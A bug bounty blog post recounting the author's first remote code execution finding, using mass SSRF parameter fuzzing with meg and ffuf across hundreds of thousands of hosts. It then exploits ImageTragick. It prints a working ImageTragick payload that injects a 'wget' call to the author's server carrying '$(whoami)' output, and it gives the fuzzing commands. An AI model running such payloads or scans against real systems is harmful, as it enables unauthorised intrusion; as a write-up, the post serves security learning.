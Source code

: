 ```yaml
---
title: "My first RCE: a tale of good ideas and good friends"
layout: post
categories:
  - hacking
tags:
  - hacking
---
```


TLDR: Through the help of two friends, some bash tricks, the use of Tomnomnom's tool `meg`, and a service vulnerable to [ImageTragick](https://imagetragick.com/), I found my first RCE (and my first critical!) within the first two months of bug bounty hunting.

## Good friends and good ideas
I have always found value in surrounding myself with people I can learn from. In my professional work life, that's choosing to be around the most talented team member when possible. 

When I got into bug bounty, I immediately followed people like [@nahamsec](https://twitter.com/NahamSec), [@zseano](https://twitter.com/zseano), and [@stök](https://twitter.com/stokfredrik). They are very talented and get a lot of questions so I knew I needed to find other sources of help as well. 

Ben (@nahamsec) had started a discord. HackerOne also has a discord. I met [@healthyoutlet](https://twitter.com/healthyoutlet) on one of those discords and we've been friends ever since. We're constantly bouncing ideas off each other. One day I told him it would be awesome to use [@tomnomnom](https://twitter.com/TomNomNom)'s `meg` tool to hit ALL public bounty subdomains with different high-signal payloads and then grepping for signs that it was vulnerable. Like most hackers, he's a doer so he immediately pulled down the github repo of all public programs (https://github.com/arkadiyt/bounty-targets-data), found the domains for the wildcards with [findomain](https://github.com/Edu4rdSHL/findomain), and sent me the list. 

<iframe src="https://giphy.com/embed/oYtVHSxngR3lC" width="480" height="347" frameBorder="0" class="giphy-embed" allowFullScreen></iframe>

It was around 300,000 subdomains and >600,000 hosts because nearly all of them were running on both port 80 and 443. 

We tried lots of different payloads:
* CRLF via %0d%0a
* Path traversal
* Known sensitive paths
* etc.

The idea that resulted in this write-up (and therefore, my first critical!) was parameter fuzzing. I had the idea to search for SSRF via stuffing a bunch of parametes into a request like:
```
https://example.com?url=myserver.com/url&file=myserver.com/file...
```

So I was telling [@michael1026](https://twitter.com/Michael1026H1) about my idea and he suggested a big list of parameters. Since Discord keeps good history, I dug it up for this post:
```
content, counturl, dest_url, document, domain, download, file, http, https, image, image_src, imageurl, include, media, Page, pageurl, page_url, picture, referrer, req, request, source, src, uri, url
```

I am pretty frugal, and I hadn't made any money from bug bounty at this point, so I didn't have Burp Pro and collaborator. So here was the steps I took:
1. Start a simple server on my VPS with `python3 -m http.server`
2. Run the following command. I used return code 777 because I didn't really want to save off any repsponses.  
```
meg -c 100 -d 100 -s 777 "/?url=http://{my-server-ip}&file=http://{my-server-ip}&path=..." all_hosts.txt
```
3. Wait for a ping on my server.
4. ???
5. Profit!

Oh wait... maybe you already spotted the issue. I received a few pings on my simple http server, and I got really excited. But then I realized that I had no idea what parameter or host was vulnerabe.

## What I did to find the host and param name
I used the linux `split` command to cut the hosts into 100 files and wrote a `for` loop to iterate over them. I watched the simple server logs to see when I got a hit. Then I broke that flie into 100 files and did it again until I figured out the host. I did something similarly stupid to figure out the param name. It took a few hours when it shouldn't have, but it ended up being worth it :)

## What I should have done
1. I should have used [ffuf](https://github.com/ffuf/ffuf). It's an awesome and flexible fuzzer. Check it out if you haven't used it. 
2. Also, I should have added the parameter name to the path. Then I would immediately know which parameter was vulnerable.
3. It would have been nice to include the domain in the path of the request so I would know which domain was vulnerable. This has to change PER request, which isn't trivial. I could have used some bash magic and curl. But nowadays, with the new pitchfork mode in ffuf, I could have requested the domain in the endpoint path pretty easily. 

Putting it all together, I should have done: 
```
ffuf -c -u HOST/?url=http://{my-server-ip}/DOMAIN/url&file=http://{my-server-ip}/DOMAIN/file -w hosts.txt:HOST -w domains.txt:DOMAIN -mode pitchfork -v 
```
Hosts.txt would contain hosts including the protocol. Domains would be the hosts WITHOUT the protocal lining up line-per-line with the hosts. You could easily generate this with @tomnomnom's tool `unfurl` via a command like this: 
`cat hosts.txt | unfurl -format %d | tee -a domains.txt`

## Wrapping up

The vulnerable host had the word image in the subdomain. So I hosted an image on my server and did 
`curl -v https://vulnerablehost.com/url=http://{my-server-ip}/image.jpg` 
and sure enough, the vulnerable host grabbed the image from my server and then delivered it to me. I was telling [@healthyoutlet](https://twitter.com/healthyoutlet) everything I was doing and asking for advice. He told me to check the downloaded image size. sure enough, it was completely different than the original. I opened up an image compare tool and there were lots of pixel differences. It was definitely being processed. So then [@healthyoutlet](https://twitter.com/healthyoutlet) mentions that it might be using [ImageTragick](https://imagetragick.com/) and to look into it. I quickly googled it, found the PoC's on github and modified it so that the code being executed was 
```
push graphic-context
viewbox 0 0 640 480 
fill 'url(https://127.0.0.0/oops.jpg"|wget http://{my-server-ip}/$(whoami)'
pop graphic-context
```
After a few seconds, I got a hit on my simple server at `/Serving`. Not root, but it still proved RCE by the `wget` request being performed AND showing the username of the user running the web server.

<iframe src="https://giphy.com/embed/8JVjMCr3OIAhO" width="480" height="178" frameBorder="0" class="giphy-embed" allowFullScreen></iframe>

So, with imagetragick, an attacker can replace everything to the right of the pipe with whatever code they want. I thought about getting a shell and seeing if I could pivot or escalate, but RCE is already a critical, and I decided to play it on the safe side. 

## Take-aways

* Friends and collaboration are immensely valuable, especially when you're first starting. I wouldn't have found this without my friends helping.
* Creativity and huge data sets can lead to interesting findings.
* Don't assume old CVEs aren't still around. ImageTragick is a 2016 CVE and this was found on a well-known public bug bounty program.

I hope you enjoyed the write-up. I've got a few more from the last few months that might be interesting to write up as well. Let me know if you'd like to see those. 
